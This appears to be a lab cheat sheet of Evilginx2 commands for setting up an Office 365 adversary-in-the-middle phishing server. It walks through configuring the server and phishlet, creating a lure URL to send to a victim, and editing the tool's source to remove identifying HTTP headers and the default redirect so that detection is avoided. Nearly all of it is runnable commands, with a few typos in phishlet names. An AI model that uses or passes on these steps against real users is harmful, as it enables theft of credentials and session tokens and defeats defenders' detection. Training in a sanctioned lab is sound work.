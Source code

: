 #### Set the IP for the evilginx server
```
config ip xx.xx.xx.xx
```

#### Use the template for office365
```
phishlets hostname o365 <DOMAIN>
```

#### Verify the DNS entries
```
phishlets get-hosts o365
```

#### Copy the certificate and private key
0365.cr and 0365.key from ```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

#### Enable phishlets
```
phislets enable 0365
```

#### Create the phishing URL (Tied to an ID)
```
lures create 0365
```

#### Get the phishing URL
- Share the phishing URL with the victim
```
lures get-url <ID>
```

### Avoid detection
- Avoid detection by removing default Evilginx2 HTTP Header and white list outgoing and incoming IP addresses.

#### Change default redirect uri
```
vim config.go

#Change line with DEFAULT_REDIRECT_URL
```

#### Change the headers
```
vim http_proxy.go

# Comment the following lines
reg.Header.Set(string(hg) egg2)
reg.Header.Set(string(e), e_host)
reg.Header.Set(string(b), nothing_to_see_here)
```
